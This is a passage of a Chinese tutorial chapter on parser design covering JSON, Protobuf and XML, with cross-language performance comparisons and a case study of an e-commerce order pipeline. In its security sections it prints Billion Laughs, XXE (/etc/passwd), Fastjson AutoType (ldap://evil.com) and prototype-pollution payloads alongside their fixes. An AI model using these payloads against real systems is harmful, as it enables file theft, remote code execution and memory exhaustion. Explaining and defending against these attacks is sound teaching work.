






# 1.9 数据解析设计思想

📍 **本篇位置**：第 1 卷 · 数据的本质 · 第 9 篇（解析归一篇）

🎯 **核心矛盾**：**字节流的线性 vs 业务结构的层次** —— 解析是把"一串字节"重塑成"一棵树"的逆过程

🧭 **设计灵魂**：解析器只有四条路——**流式 (SAX) 把内存让位给时间**、**树形 (DOM) 把时间让位给随机访问**、**反射映射 (Gson/Jackson) 把性能让位给开发效率**、**编译期生成 (Codable/sonic/simdjson) 把开发效率和性能一起夺回来**。

🌐 **跨语言覆盖**：Java(Jackson/Fastjson2) · Go(encoding/json + sonic) · Python(json + orjson) · JS(JSON.parse) · C++(rapidjson + simdjson)



🎯 **阅读建议**：本篇不是"解析器使用手册"，是"侦探推理"。每一节都从一个反直觉现象出发——为什么 simdjson 比 Jackson 快 24 倍？为什么 Protobuf 的 Varint 要 7 位一组？为什么 Fastjson 出过那么多 RCE？让你跟着设计者的思路把答案"推"出来。

---

#### 目录介绍

- [1.真实事故引入](#1真实事故引入)
  - [1.1 大促首日的 P0 报案](#11-大促首日的-p0-报案)
  - [1.2 灵魂的三问](#12-灵魂的三问)
  - [1.3 本篇探索路径](#13-本篇探索路径)
  - [1.4 本章学习价值](#14-本章学习价值)
- [2.解析的本质拆解](#2解析的本质拆解)
  - [2.1 解析是什么](#21-解析是什么)
  - [2.2 三阶段模型](#22-三阶段模型)
  - [2.3 流式 vs 树形的取舍](#23-流式-vs-树形的取舍)
  - [2.4 反射映射的代价](#24-反射映射的代价)
  - [2.5 编译期生成的胜利](#25-编译期生成的胜利)
  - [2.6 四模型决策矩阵](#26-四模型决策矩阵)
- [3.JSON 解析机制](#3json-解析机制)
  - [3.1 JSON 的"少即是多"](#31-json-的少即是多)
  - [3.2 从手写状态机推导词法](#32-从手写状态机推导词法)
  - [3.3 simdjson 24 倍提速之谜](#33-simdjson-24-倍提速之谜)
  - [3.4 数字解析的暗坑](#34-数字解析的暗坑)
  - [3.5 转义与 Unicode 陷阱](#35-转义与-unicode-陷阱)
- [4.Protobuf 解析机制](#4protobuf-解析机制)
  - [4.1 二进制比JSON快](#41-二进制比json快)
  - [4.2 Varint 编码亲手推导](#42-varint-编码亲手推导)
  - [4.3 ZigZag 与负数压缩](#43-zigzag-与负数压缩)
  - [4.4 Wire Type 与 Tag 设计](#44-wire-type-与-tag-设计)
  - [4.5 字段顺序无关性](#45-字段顺序无关性)
- [5.XML 的教训](#5xml-的教训)
  - [5.1 SAX 之死](#51-sax-之死)
  - [5.2 XXE 与 Billion Laughs](#52-xxe-与-billion-laughs)
- [6.跨语言解析全景](#6跨语言解析全景)
  - [6.1 Java：反射、字节码与编译期](#61-java反射字节码与编译期)
  - [6.2 Go：encoding/json vs sonic](#62-goencodingjson-vs-sonic)
  - [6.3 Python：json vs orjson](#63-pythonjson-vs-orjson)
  - [6.4 JavaScript：V8 引擎里的 JSON.parse](#64-javascriptv8-引擎里的-jsonparse)
  - [6.5 C++：rapidjson / simdjson](#65-crapidjson--simdjson)
- [7.综合案例串讲](#7综合案例串讲)
  - [7.1 案例背景：双 11 订单回写链路](#71-案例背景双-11-订单回写链路)
  - [7.2 链路全景](#72-链路全景)
  - [7.3 上游：网关入口](#73-上游网关入口)
  - [7.4 中游：业务服务解析](#74-中游业务服务解析)
  - [7.5 反射热点定位](#75-反射热点定位)
  - [7.6 大对象 OOM 与流式改造](#76-大对象-oom-与流式改造)
  - [7.7 Long 精度丢失](#77-long-精度丢失)
  - [7.8 Fastjson AutoType RCE](#78-fastjson-autotype-rce)
  - [7.9 Protobuf 字段兼容](#79-protobuf-字段兼容)
  - [7.10 跨端读取差异](#710-跨端读取差异)
  - [7.11 案例知识点回归](#711-案例知识点回归)
- [8.一句话总结](#8一句话总结)
  - [8.1 三层认知阶梯](#81-三层认知阶梯)
  - [8.2 七字真言](#82-七字真言)
  - [8.3 与下篇的承接](#83-与下篇的承接)

---

## 1.真实事故引入

### 1.1 大促首日的 P0 报案

双 11 0 点 03 分，订单服务告警群被刷屏：**订单提交接口超时率从 0.3% 跳到 18%**。链路上能看到一条诡异的栈：

```
java.lang.OutOfMemoryError: Java heap space
    at com.fasterxml.jackson.core.util.ByteArrayBuilder.toByteArray
    at com.fasterxml.jackson.databind.ObjectMapper.readTree
    at OrderService.parseOrder(OrderService.java:117)
```

值班工程师第一反应——**扩容**。但加了 30% 机器后超时率反而升到 22%。

慢 SQL、Redis 命中率、网络 RTT 全部正常。最终 dump 堆栈一看：**单个请求体 38MB**——某个促销活动配置返回了完整的 SKU 树，Jackson `readTree` 一次性加载到内存把堆撑爆了。

复盘会上三个工程师轮番给出三个看似都对的解释：

| 工程师 | 解释 | 看起来对吗 |
|---|---|---|
| A | "Jackson 没限制大小，加一个 `maxStringLength`" | ❌ 治标，下次换成嵌套深度还会炸 |
| B | "把 `readTree` 换成 POJO 反序列化就好了" | ❌ 38MB 不管 Tree 还是 POJO 都炸 |
| C | "应该改用流式 Streaming API 边读边处理" | ✅ 但为什么团队一开始就选了 Tree？ |

真相是：**团队不知道 Jackson 有 Streaming/Tree/Databind 三种模式，默认照搬 demo 用了 `readTree`**——这是大部分团队的真实状态。本章就从这个事故出发，把"解析器为什么有四种模型、各自代价是什么"彻底讲清楚。

### 1.2 灵魂的三问

这个事故背后藏着三个所有解析框架设计者都绕不开的问题：

1. **为什么解析必须分"流式 / 树形 / 反射 / 编译期"四种模型？为什么不是一种？**
2. **为什么 simdjson 能比 Jackson 快 24 倍？这 24 倍是哪里挤出来的？**
3. **为什么 Fastjson 历史上爆出过几十个 RCE，而 Jackson、Gson 却几乎没有？这是 bug 还是设计选型的代价？**

答完这三个问题，你就理解了解析器世界的全部底层骨架。

### 1.3 本篇探索路径

本篇不会一上来就罗列 API。我们用"事故 → 模型 → 推导 → 综合案例"的路径还原：



### 1.4 本章学习价值

读完本章你将能：

- **看懂任何解析框架的源码骨架**——不管是 Jackson、sonic、orjson、还是 V8 的 JSON.parse，都是这四种模型之一的实现。
- **在选型阶段就避开 80% 的事故**——OOM、RCE、Long 精度丢失、字段兼容性问题，本质都是模型选错。
- **能向团队讲清楚为什么 simdjson 快**——这是面试和架构评审的高频问题，本章给你"自己推导"的能力。

---

## 2.解析的本质拆解

### 2.1 解析是什么

一句话定义：**解析是序列化的逆过程，把"线性字节流"还原成"层次化对象"**。

如果说编码（§1）解决"字符 ↔ 字节"，序列化（§8）解决"对象 ↔ 字节流"，那么解析就是序列化的镜像——它要面对一个残酷事实：

> **字节流是线性的，没有边界、没有类型、没有结构。**

```
原始字节： 7B 22 6E 22 3A 31 32 33 7D
对应字符： {  "  n  "  :  1  2  3  }
↑ 这串字节里"哪里是 key、哪里是 value、123 是整数还是字符串"——
   全靠解析器一个字节一个字节"猜"出来。
```

所以**所有解析器的第一个动作，都是给字节流"打标记"**——这就是词法分析。

### 2.2 三阶段模型

任何格式（JSON / XML / YAML / Protobuf）的解析器，骨架都是三阶段：



- **词法（Lex）**：识别 `{` `}` `:` `,` `"..."` `123` `true` 等"原子单元"，输出 Token 流。
- **语法（Parse）**：根据语法规则把 Token 序列组合成结构（Object / Array / 嵌套）。
- **语义（Bind）**：把结构里的字段填到对应的 Java/Go/Python 对象字段上。

**四种解析模型的差异，就在于"在哪一步停下来"**：

| 模型 | 停在哪 | 给用户什么 | 代价 |
|---|---|---|---|
| 流式 SAX | 词法 | Token 事件回调 | 用户自己处理结构 |
| 树形 DOM | 语法 | Tree / Map | 全部加载到内存 |
| 反射映射 | 语义 | POJO 对象 | 运行时反射开销 |
| 编译期生成 | 语义（提前生成代码） | POJO 对象 | 编译期复杂 |

### 2.3 流式 vs 树形的取舍

来看 §1 的事故现场——同样一份 38MB JSON，三种写法的命运：

```java
// ❌ 方案 1：Tree 模式（团队默认）
JsonNode root = mapper.readTree(inputStream);  // 38MB 全部进堆 → OOM
String orderId = root.get("orderId").asText();

// ❌ 方案 2：POJO 反序列化
Order order = mapper.readValue(inputStream, Order.class);  // 还是 38MB 进堆

// ✅ 方案 3：Streaming（事件驱动）
JsonParser p = factory.createParser(inputStream);
while (p.nextToken() != null) {
    if (p.getCurrentName().equals("orderId")) {
        p.nextToken();
        String orderId = p.getText();  // 拿到就走，不留内存
        break;
    }
}
```

**第一性原理**：JSON 是"序列结构"，理论上只要解析器**不回看**，就可以做到 O(1) 内存。SAX/Streaming 就是这个思路——**用时间换空间**。

但代价是：**用户必须自己维护"我现在在哪一层"**。这是 SAX 难用的根因，也是为什么团队默认会用 DOM——**易用性碾压性能**。

> **设计共识 1**：选型不是"哪个更好"，是"我能不能承担它的代价"。38MB 的接口里你没有选择，**必须用 Streaming**。

### 2.4 反射映射的代价

为什么 Gson/Jackson 默认用反射？因为它解决了一个开发者最痛的问题：

```java
// 不用反射，你得自己写：
Order order = new Order();
order.setOrderId(p.getText());  // 100 个字段写 100 行
order.setUserId(p.getLongValue());
// ...

// 用反射，一行：
Order order = mapper.readValue(json, Order.class);
```

反射做的事：**运行时遍历类的字段**，按名字匹配 JSON key，调 setter 或直接写 field。但运行时反射有三个固定代价：

| 代价 | 数量级 | 解决方案 |
|---|---|---|
| Method.invoke 慢 | 比直接调用慢 3~5x | 缓存 MethodHandle |
| getDeclaredFields 扫描 | 每次解析都扫一遍 | 类级别缓存 |
| 字段名字符串比较 | 每个字段都 equals | hash 索引 |

Jackson 把这三个优化做到了极致，所以"Jackson 比 Gson 快"不是玄学，是缓存做得更狠。但**反射的天花板始终在那里**——它必须在运行时拿到"字段名 → setter"这张映射表。

### 2.5 编译期生成的胜利

如果"字段名 → setter"这张表能在**编译期**生成出来呢？

```go
// Go 的 sonic（字节跳动）就是这么做的：
// 编译期通过 JIT/AST 生成专用的 parse 函数
func parseOrder_generated(data []byte) (*Order, error) {
    // 等价于手写：
    //   o.OrderId = data[12:24]
    //   o.UserId = parseInt64(data[30:38])
    // 没有反射、没有 map 查找、没有字符串比较
}
```

这就是 **iOS Codable / Kotlin kotlinx.serialization / Go sonic / C++ rapidjson + 模板** 走的路：**编译期把反射代价直接干掉**。

性能数据（GB/s 解析吞吐）：

| 方案 | JSON 解析吞吐 | 倍数 |
|---|---|---|
| Python json | ~0.1 GB/s | 1x |
| Java Jackson（反射） | ~0.3 GB/s | 3x |
| Go encoding/json（反射） | ~0.4 GB/s | 4x |
| Go sonic（JIT 生成） | ~1.5 GB/s | 15x |
| C++ rapidjson | ~1.5 GB/s | 15x |
| C++ simdjson | ~2.5 GB/s | 25x |

**simdjson 比 Python json 快 25 倍，比 Jackson 快 8 倍**——其中"编译期生成"占了 5 倍，"SIMD 指令"再加 5 倍。后者我们在 §3.3 推导。

### 2.6 四模型决策矩阵



**一句话决策树**：

> **大数据流式、随机访问 DOM、Schema 稳定走编译期、其它兜底反射。**

---

## 3.JSON 解析机制

### 3.1 JSON 的"少即是多"

JSON 的 RFC 8259 全文只有 16 页，正文不到 6 页。对比 XML 1.0 的 50+ 页规范，这种"少"是 JSON 能赢的根本：

```
JSON 全部语法元素只有 7 种：
  对象 {}    数组 []    字符串 ""    数字 (无引号)
  true       false      null

XML 至少有 10+ 种结构元素：
  Element  Attribute  CDATA  PI  Comment  DOCTYPE
  Entity   Namespace  Schema XPath ...
```

**少即是省**——解析器代码量从 5000 行降到 500 行，词法状态从 30 个降到 8 个。这就是为什么 JSON 解析能做到极致优化（simdjson 整个解析核心不到 2000 行 C++）。

### 3.2 状态机推导词法

如果让你**亲手设计 JSON 词法器**，怎么写？

JSON 的所有 Token 只有 7 类：`{` `}` `[` `]` `:` `,` `字面量`。一个最朴素的状态机：

```c
// 伪代码：单字节驱动的 JSON tokenizer
while (pos < len) {
    char c = data[pos];
    switch (c) {
        case '{': emit(OBJ_BEGIN); pos++; break;
        case '}': emit(OBJ_END);   pos++; break;
        case '[': emit(ARR_BEGIN); pos++; break;
        case ']': emit(ARR_END);   pos++; break;
        case ':': emit(COLON);     pos++; break;
        case ',': emit(COMMA);     pos++; break;
        case '"': pos = parseString(data, pos); break;
        case ' ': case '\t': case '\n': case '\r': pos++; break;
        case 't': case 'f': case 'n': pos = parseLiteral(data, pos); break;
        default:  pos = parseNumber(data, pos); break;
    }
}
```

这个版本就能处理 95% 的 JSON——但它**一字节一分支**，CPU 每读一个字节都要做一次 `switch`，分支预测失败时流水线打嗝。这就是 Jackson 这种"传统解析器"的瓶颈。

### 3.3 simdjson 24 倍提速之谜

simdjson 提出一个反直觉问题：

> **能不能一次性看 64 个字节，并行找出所有 `{` `}` `"` 的位置？**

答案是能——用 **SIMD（Single Instruction Multiple Data）** 指令。x86 的 AVX-512 寄存器一个就是 64 字节，一条 `_mm512_cmpeq_epi8` 指令能在 1 个 cycle 内比较 64 个字节是否等于某个目标字符。

simdjson 的核心三步：

```
Step 1：用 SIMD 一次扫 64 字节，分别得到：
   '{' 出现位置的 64-bit mask
   '}' 出现位置的 64-bit mask
   '"' 出现位置的 64-bit mask
   ' '/'\n'/'\t' 空白位置的 64-bit mask

Step 2：用位运算把"在字符串内"的字符过滤掉
   （因为 {"a":"}"} 里的 } 不是结构性的）
   structural_mask = brackets_mask & ~in_string_mask

Step 3：用 popcount/tzcnt 一次性跳到下一个结构字符
   完全无分支
```

性能对比（单核，1MB JSON）：

| 解析器 | 时间 | 吞吐 | 倍数 |
|---|---|---|---|
| Python json | 24 ms | 40 MB/s | 1x |
| Jackson | 8 ms | 125 MB/s | 3x |
| rapidjson | 2 ms | 500 MB/s | 12x |
| **simdjson** | **0.4 ms** | **2.5 GB/s** | **60x** |

**24 倍的来源拆解**：

```
基线（Python json）                    1x
+ C++ 重写消除解释器开销               5x
+ 避免 malloc，用 arena 一次分配        10x
+ 编译期模板特化代替反射               15x
+ SIMD 并行扫描                       60x
```

> **设计共识 2**：性能不是从一处挤出来的，是层层叠加的。simdjson 不是某一招神奇，是把"消除分支、避免 malloc、SIMD 并行、缓存友好"四件事全做到极致。

### 3.4 数字解析的暗坑

JSON 标准里数字**没有类型**——`123` 是 int 还是 float 全靠解析器猜。这埋了三颗炸弹：

**炸弹 1：JS 的 53 位精度上限**

```js
JSON.parse('{"id": 9007199254740993}')
// 输出: { id: 9007199254740992 }  ← 末尾 3 变成了 2！
```

JS 的 `Number` 是 IEEE 754 double，尾数 52 位 + 1 隐含位 = 53 位有效精度。超过 2^53 的整数无法精确表示。**Java/Go 后端发 Long 类型 ID 到前端必踩**。

修复：**Long 在传输层一律转 String**：

```java
@JsonSerialize(using = ToStringSerializer.class)
private Long orderId;  // 序列化成 "9007199254740993"
```

**炸弹 2：浮点 0.1 + 0.2 ≠ 0.3（§3 已讲）**

JSON 里写 `0.1` 解析出来在 Java 是 0.10000000000000000555…，金额场景必须用 `BigDecimal`：

```java
ObjectMapper m = new ObjectMapper();
m.enable(DeserializationFeature.USE_BIG_DECIMAL_FOR_FLOATS);
```

**炸弹 3：科学计数法陷阱**

`1e2` 是 100 还是字符串？大部分解析器解析成 `double 100.0`，但用户期望是 `int 100`。SQL 注入场景里 `1e2` 还能绕过部分纯字符串过滤。

### 3.5 转义与 Unicode 陷阱

JSON 字符串的转义规则看似简单（`\"` `\\` `\/` `\b` `\f` `\n` `\r` `\t` `\uXXXX`），但 `\uXXXX` 里藏着坑：

```json
{"emoji": "\uD83D\uDE00"}
```

`\uD83D` 和 `\uDE00` 是 UTF-16 代理对，组合起来是 `😀`（U+1F600）。如果解析器**逐个 `\uXXXX` 单独转换成字符**，会得到两个非法码点；正确做法是**识别代理对后合并为单个 code point**。

Fastjson 1.2.x 在这里出过 bug，导致 emoji 数据库存到的是孤立代理。修复方式：升级或显式调用 `Normalizer.normalize(s, NFC)`。

---

## 4.Protobuf 解析机制

### 4.1 二进制比JSON快

来看同一份订单数据：

```json
// JSON: 102 字节
{"orderId":1234567890,"userId":100,"amount":99.5,"status":1}
```

```
// Protobuf: 19 字节
08 D2 85 D8 CC 04  10 64  19 00 00 00 00 00 E5 58 40  28 01
```

差距来自三个设计决策：

| 设计 | JSON | Protobuf | 节省 |
|---|---|---|---|
| 字段名 | 明文 `"orderId"` | tag 数字 `1` | -7 字节 |
| 数字编码 | ASCII 字符串 | Varint 变长 | -50% |
| 结构开销 | `{` `}` `:` `,` `"` | 无 | -10 字节 |

**5 倍的速度优势来自更少的字节 + 不需要词法扫描**——Protobuf 解析器只要读 tag 知道字段，按 wire type 拿 N 个字节就结束。

### 4.2 Varint 编码亲手推导

Protobuf 最核心的 Varint 是怎么设计的？

**问题**：怎么用最少的字节存一个 0~2^64 的整数？

**朴素方案**：固定 8 字节存所有 int64——`100` 也得占 8 字节，浪费。

**Varint 方案**：**用每个字节的最高位作"还有没有下一字节"的标志**。

```
规则：每字节用 7 位存数据，最高位 1=还有，0=结束
低位在前（little-endian groups）

例 1：存数字 1
  二进制：           0000001
  最高位 0 表示结束： 00000001  ← 1 字节

例 2：存数字 300（二进制 100101100）
  分成 7 位组：     0000010 0101100
  从低组开始：       0101100  0000010
  低组加最高位 1：  10101100  00000010
                    ↑还有     ↑结束
  共 2 字节：       0xAC 0x02
```

**亲手验证**：

```python
def varint_encode(n):
    out = bytearray()
    while n > 0x7F:
        out.append((n & 0x7F) | 0x80)  # 取低 7 位 + 设置 continuation bit
        n >>= 7
    out.append(n & 0x7F)               # 最后一字节最高位 0
    return bytes(out)

print(varint_encode(300).hex())  # 输出: ac02
```

**收益**：

- 数字 0~127：1 字节（JSON 字符串至少 1~3 字节）
- 数字 128~16383：2 字节
- 数字 16384~2M：3 字节
- 最坏情况 int64：10 字节（比定长多 2 字节，但实际业务中极少）

电商订单大部分字段是 0~10000 范围，**平均节省 60% 字节数**。

### 4.3 ZigZag 与负数压缩

Varint 有个致命弱点——**负数总是 10 字节**。因为 `-1` 在二进制补码里是 `0xFFFF...FF`，按 Varint 拆下来满 10 字节。

ZigZag 解决这个问题——**把符号位放到最低位**：

```
原始        ZigZag 后
 0    →    0
-1    →    1
 1    →    2
-2    →    3
 2    →    4
-3    →    5
...

公式：zigzag(n) = (n << 1) ^ (n >> 63)
```

这样**绝对值小的负数也只占 1 字节**。`-1` 经过 ZigZag 变成 `1`，Varint 编码就 1 字节。

> **设计共识 3**：所有"变长编码"的核心思想都是"高频值短，低频值长"——这是 Huffman 编码的家族成员。

### 4.4 Wire Type 与 Tag 设计

Protobuf 的每个字段前面都有一个"tag"：

```
tag = (field_number << 3) | wire_type
```

低 3 位是 wire type（只有 0~5 共 6 种），高位是字段号。这个设计能让解析器**不需要 .proto 文件就能跳过未知字段**——只要读到 tag 就知道后面跟几个字节：

| wire_type | 含义 | 后续字节 |
|---|---|---|
| 0 | Varint | 读到最高位 0 为止 |
| 1 | 64-bit | 固定 8 字节 |
| 2 | Length-delimited | 先读一个 Varint 长度 L，再读 L 字节 |
| 5 | 32-bit | 固定 4 字节 |

这就是 Protobuf 的"向前兼容"原理——**老版本读到新字段，看不懂但能跳过**。

### 4.5 字段顺序无关性

```protobuf
message Order {
  int64 order_id = 1;
  int64 user_id = 2;
  double amount = 3;
}
```

发送方可以按 `order_id, user_id, amount` 序列化，也可以按 `amount, order_id, user_id`——接收方按 tag 重排即可。

**这是 Protobuf 比 JSON 健壮的关键**：JSON 里如果发送方多了一个字段、接收方 strict 模式就报错；Protobuf 完全不需要协调"字段顺序"。

---

## 5.XML 的教训

XML 是 1998 年的设计，承载了"通用数据格式"的野心，但今天几乎只在企业级集成（SOAP / 配置 / Android XML）里苟延残喘。它留下两个核心教训。

### 5.1 SAX 之死

XML 的 SAX API 早于 JSON 出现，是"流式解析"的元老。但 SAX 难用到什么程度？看这段经典代码：

```java
// SAX 解析 <order><id>123</id></order>
DefaultHandler h = new DefaultHandler() {
    StringBuilder cur = new StringBuilder();
    String currentTag;

    public void startElement(String uri, String name, String qName, Attributes a) {
        currentTag = qName;
        cur.setLength(0);
    }
    public void characters(char[] ch, int start, int len) {
        cur.append(ch, start, len);  // ← 注意必须 append，不能直接用，因为可能分段回调
    }
    public void endElement(String uri, String name, String qName) {
        if ("id".equals(qName)) {
            int id = Integer.parseInt(cur.toString());
            // ...
        }
    }
};
```

**SAX 的三宗罪**：

1. **`characters` 回调可能被分段调用**（编码器决定）——必须自己 append。
2. **没有"我现在在哪一层"的上下文**——要自己维护栈。
3. **回调式编程心智负担极重**——没人愿意写 100 个字段的状态机。

教训：**流式 API 必须给用户提供"当前路径 / 当前层级"的元信息**。这就是为什么 Jackson 的 Streaming API 比 SAX 好用 10 倍——它有 `getCurrentName()` 这种 API。

### 5.2 XXE 与 Billion Laughs

XML 还埋了一个"功能即漏洞"的经典反例——**实体扩展**：

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!-- ... 一直到 lol9 ... -->
]>
<lolz>&lol9;</lolz>
```

这个文档只有几百字节，但解析展开后是 **10^9 = 10 亿个 "lol"**——`Billion Laughs Attack`，瞬间打爆内存。

还有 XXE（XML External Entity）：

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

解析器会去读 `/etc/passwd` 并把内容塞进 `&xxe;`——SSRF + 任意文件读取一气呵成。

修复在 Java 里至少要禁三个特性：

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

> **设计共识 4**：JSON 故意没有"实体引用"、没有"DTD"、没有"Schema 内嵌"——**少即是安全**。

---

## 6.跨语言解析全景

### 6.1 Java反射字节码

Java 生态把"四种模型"全部演化了一遍：

| 库 | 模型 | 性能（GB/s） | 备注 |
|---|---|---|---|
| Jackson Streaming | 流式 | 1.0 | API 难用 |
| Jackson Databind | 反射 | 0.3 | 业界默认 |
| Gson | 反射 | 0.2 | 简单可靠 |
| Fastjson 1.x | 反射 + ASM 字节码 | 0.6 | **RCE 重灾区** |
| Fastjson 2.x | 反射 + JIT | 0.8 | 修复 AutoType |
| Jackson + Blackbird | 字节码生成 | 0.5 | 替代旧 Afterburner |

**Fastjson AutoType 为什么炸**？

```java
// 攻击者发送：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://evil.com/x"}
```

`@type` 让 Fastjson 反射创建任意类——`JdbcRowSetImpl` 在 set `dataSourceName` 时会触发 JNDI 查询，攻击者控制的 LDAP 服务器返回恶意类，**RCE**。

教训：**反序列化时绝对不能让数据决定类型**——这是 Gson/Jackson 默认安全的原因（它们要求 `Class.class` 参数）。

### 6.2 Go：encoding/json vs sonic

Go 标准库的 `encoding/json` 用反射，性能在所有主流语言里垫底（~0.4 GB/s）。字节跳动 sonic 用 **JIT 编译期生成解析代码**：

```go
// 普通 encoding/json
json.Unmarshal(data, &order)  // 反射

// sonic
sonic.Unmarshal(data, &order)  // 等价于自动生成的专用 parse 函数
```

sonic 还有一招**懒解析**：

```go
node, _ := sonic.Get(data, "orderId")
id := node.Int64()  // 只解析 orderId 字段，其它跳过
```

电商场景下 80% 的请求只用一两个字段，懒解析能减 5 倍 CPU。

### 6.3 Python：json vs orjson

Python 标准 `json` 用纯 Python 实现，是所有语言里最慢的（~0.1 GB/s）。orjson 用 Rust 重写：

```python
import orjson
data = orjson.loads(json_bytes)  # 比 stdlib 快 10 倍
```

**Python 自带的坑**：

```python
>>> json.dumps(float('nan'))   # 不报错，输出 'NaN'
>>> json.loads('NaN')          # 解析回 nan
>>> # 但这不符合 JSON 规范——nan 不是合法 JSON！
```

orjson 默认拒绝 NaN/Infinity，更接近标准。

### 6.4 JavaScript：V8 引擎里的 JSON.parse

`JSON.parse` 是 JS 性能最高的内置函数之一——V8 用 C++ 实现，解析速度接近 simdjson 的一半。

**坑 1：原型链污染**

```js
JSON.parse('{"__proto__": {"isAdmin": true}}')
// 在某些库（lodash.merge）里会污染 Object.prototype.isAdmin = true
```

修复：用 `Object.create(null)` 创建对象、或用 `JSON.parse(s, reviver)` 过滤 `__proto__`。

**坑 2：reviver 副作用**

```js
JSON.parse(s, function(key, value) {
    if (key === 'timestamp') return new Date(value);
    return value;
});
```

reviver 是 JSON.parse 唯一的扩展点，但**性能下降 5~10 倍**——大型数据不要用。

### 6.5 C++：rapidjson / simdjson

C++ 生态把性能榨到了极致：

| 库 | 模型 | 吞吐 | 特点 |
|---|---|---|---|
| nlohmann/json | DOM | 0.2 GB/s | 单头文件，易用 |
| rapidjson | SAX + DOM | 1.5 GB/s | 内存池 + 模板 |
| simdjson | SIMD + 编译期 | 2.5 GB/s | **当前性能之王** |

**rapidjson 的核心招式**：

- **内存池（MemoryPoolAllocator）**：所有 Value 共享一个 arena，解析完一次 `Clear()` 全部回收，不调 malloc。
- **inplace 解析**：直接在原 buffer 上改字符（把 `"` 替换成 `\0` 当 C 字符串结尾），不复制字符串。

这两招让 rapidjson 在 2010 年代统治 C++ JSON 解析，直到 simdjson 用 SIMD 把它再翻一倍。

---

## 7.综合案例串讲

### 7.1 双11订单回写

某电商团队的订单链路：

```
APP/H5 → API 网关 → 订单服务（Java/Spring）→ Kafka → 数仓（Flink）
                              ↓
                          Redis 缓存
                              ↓
                          MySQL 持久化
```

双 11 期间出现 11 个真实故障，对应本章 11 个知识点。这一节把它们串成一条线。

### 7.2 链路全景



### 7.3 上游：网关入口

**第 1 个坑：38MB 请求体撑爆 Tree 模式（§1 事故复现）**

```java
// ❌ 网关代码
JsonNode root = mapper.readTree(req.getInputStream());  // OOM

// ✅ 修复：先用 Streaming 校验体积
JsonParser p = factory.createParser(req.getInputStream());
long itemCount = 0;
while (p.nextToken() != null) {
    if (p.getCurrentToken() == JsonToken.START_OBJECT) itemCount++;
    if (itemCount > MAX_ITEMS) throw new BizException("订单项超限");
}
```

教训：**入口必须做"早夭"检查**，不要让 38MB 进到下一层。

### 7.4 中游：业务服务解析

**第 2 个坑：默认 Tree 模式被滥用**（§2.3）

